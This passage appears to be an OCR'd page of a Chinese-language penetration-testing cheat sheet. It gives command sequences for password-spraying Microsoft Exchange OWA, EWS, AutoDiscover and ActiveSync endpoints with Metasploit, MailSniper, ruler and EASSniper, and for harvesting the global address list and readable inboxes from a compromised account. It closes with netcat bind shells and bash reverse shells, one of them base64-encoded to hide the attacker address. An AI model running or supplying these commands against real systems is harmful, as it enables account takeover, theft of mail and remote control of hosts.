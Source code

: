 msf > set rhost xxx.xxx.xxx.xxx
msf > set user_file /root/wordlist/user.txt
msf > set password admin@123
msf > set enum_domain true 
msf > set threads 1
msf > set stop_on_success false 
msf > set verbose true
msf > run
14.7.4.	爆破EWS接口
•	msf > use auxiliary/scanner/http/owa_ews_login
•	msf > set rhosts xxx.xxx.xxx.xxx
msf > set user_file /root/wordlist/user.txt
msf > set password admin@123
msf > set stop_on_success false
msf > set threads 2
msf > set verbose true
msf > run
•	MailSniper脚本中Invoke PasswordSprayEWS模块
•	https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1
# powershell -exec bypass
PS > $PSVersionTable 注:此脚本只适用于高版本powershell
PS > Import Module .\MailSniper.ps1
PS > Invoke PasswordSprayEWS -ExchHostname xxx.xxx.xxx.xxx -UserList .\user.txt -Password Admin12345 -Threads 1 -Domain 0day -OutFile pwd_res.txt
14.7.5.	爆破AutoDiscover接口
•	ruler
•	go get github.com/sensepost/ruler
go run ruler.go -h
./ruler-linux64 --url https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.xml -k brute -u user.txt -p pwd.txt -d 0 --threads 2 -v
14.7.6.	爆破Microsoft Server ActiveSync接口
•	EASSniper脚本中Invoke-PasswordSprayEAS模块
•	https://github.com/fugawi/EASSniper/blob/master/EASSniper.ps1
# powershell exec bypass
PS > $PSVersionTable 需要高版本powershell 
PS > Import Module .\EASSniper.ps1
PS > Get-Help Invoke-PasswordSprayEAS -examples
PS > Invoke-PasswordSprayEAS -ExchHostname xxx.xxx.xxx.xxx -UserList .\user.txt -Password admin@123 -Threads 2 -Domain 0day -OutFile pwd_res.txt
14.7.7.	通过已控邮箱远程获取邮件系统中所有账户信息
•	MailSniper.ps1
•	https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1
# powershell exec bypass
PS D: D:\\> Import Module .\MailSniper.ps1
PS D: D:\\> Get-GlobalAddressList -ExchHostname ip -UserName sqladmin -Password admin@123 -ExchangeVersion Exchange2010_SP2 
14.7.8.	查找不需要账号密码就可读取其邮件的账户
•	PS D: D:\\> Invoke-OpenInboxFinder -ExchangeVersion Exchange2010_SP2 -ExchHostname ip -EmailList user.txt -Remote
15.	Shell
15.1.	https://krober.biz/misc/reverse_shell.php
15.2.	bind shell
15.2.1.	nc.exe -lvp 4444 -e /bin/sh
15.2.2.	nc.exe -lvp 3333 -e cmd.exe
15.3.	reverse shell
15.3.1.	BASH REVERSE SHELL
bash -i >& /dev/tcp/192.168.6.128/1234 0>&1
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOC4yMjMuMTM1LjE1My8xMjM0IDA+JjE= | base64 -d | bash -i"
